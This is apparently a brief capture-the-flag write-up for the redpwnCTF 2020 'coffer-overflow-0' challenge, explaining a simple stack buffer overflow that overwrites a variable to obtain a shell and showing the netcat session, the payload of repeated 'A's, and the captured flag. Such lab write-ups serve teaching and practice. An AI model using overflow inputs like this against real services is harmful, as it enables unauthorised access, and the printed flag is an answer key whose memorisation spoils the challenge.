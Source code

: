 ### Challenge
```
Can you fill up the coffers? We even managed to find the source for you.

nc 2020.redpwnc.tf 31199
```

### Solve
* Just need to make the variable code != 0, so just overflow to overwrite the variable with a different value than 0 and get shell
```
root@beeBeeEight:~# nc 2020.redpwnc.tf 31199
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
^C
```